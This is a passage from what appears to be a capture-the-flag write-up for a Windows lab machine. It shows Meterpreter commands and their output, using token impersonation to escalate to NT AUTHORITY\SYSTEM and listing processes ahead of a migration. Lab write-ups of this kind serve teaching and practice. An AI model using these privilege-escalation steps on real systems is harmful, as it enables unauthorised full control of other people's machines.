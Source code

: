 ```
NT SERVICE\ShellHWDetection
NT SERVICE\TermService
NT SERVICE\W32Time
NT SERVICE\WdiServiceHost
NT SERVICE\WinHttpAutoProxySvc
NT SERVICE\wscsvc
```

Now, we can use `impersonate_token "BUILTIN\Administrators"` :  
```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

There is a last step to get full control on the machine. We need to migrate to a process running as `NT AUTHORIT\SYSTEM`. First, let's use `ps` to list running process :  
```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 520   2532  meterpreter.exe       x86   0        alfred\bruce                  C:\Users\bruce\Desktop\meterpreter.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 684   580   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 772   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 852   668   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 920   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 924   608   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 940   668   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 988   668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1012  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```